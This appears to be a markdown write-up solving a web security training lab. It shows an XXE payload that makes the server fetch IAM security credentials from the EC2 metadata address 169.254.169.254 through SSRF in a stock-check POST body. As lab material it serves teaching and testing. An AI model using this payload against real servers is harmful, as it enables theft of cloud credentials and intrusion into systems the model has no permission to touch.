



## Objective 

This lab has a `"Check stock"` feature that parses XML input and returns any unexpected values in the response.

The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is `http://169.254.169.254/`. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.

To solve the lab, exploit the XXE vulnerability to perform an SSRF attack that obtains the server's IAM secret access key from the EC2 metadata endpoint. 

## Solution

Well just like the first XXE lab on reading internal files.. copied and used this the same payload in the `POST` body and it worked where we can able to read the internal files actually 



In order to complete the lab, we need to exploit SSRF and get AWS metadata content... For that we use the following payload 

```xml 
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

Where we have slightly modified the payload, to make an external call to `http://169.254.169.254` to fetch the internal metadata content and if all goes well, we will make a two way interaction and shows the metadata content in the response 



And that solves the lab as well

